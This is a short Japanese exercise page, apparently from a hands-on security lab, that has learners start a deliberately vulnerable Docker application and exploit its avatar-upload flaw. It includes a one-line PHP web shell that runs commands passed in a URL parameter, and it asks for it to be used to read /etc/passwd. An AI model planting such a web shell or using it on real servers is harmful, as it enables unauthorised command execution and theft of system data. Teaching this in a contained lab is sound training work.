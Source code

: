 ### 脆弱性の悪用


#### 脆弱なアプリケーションの起動

画面右下のターミナルで`docker-compose up`と入力し，アプリケーションを立ち上げましょう．  
その後，画面右上の疑似ブラウザの更新ボタンを押すと脆弱なアプリケーションが表示されます．  

#### 攻撃

このアプリケーションには、ユーザーアイコンをアップロード機能に脆弱性があり、アップロードしたスクリプトファイル(php)が動作してしまいます。
その攻撃を元にPHPファイルを作成し、OSコマンドを実行して/etc/passwdを取得してください。

例
```PHP
<?php
  var_dump(system($_GET['cmd']));
?>
```
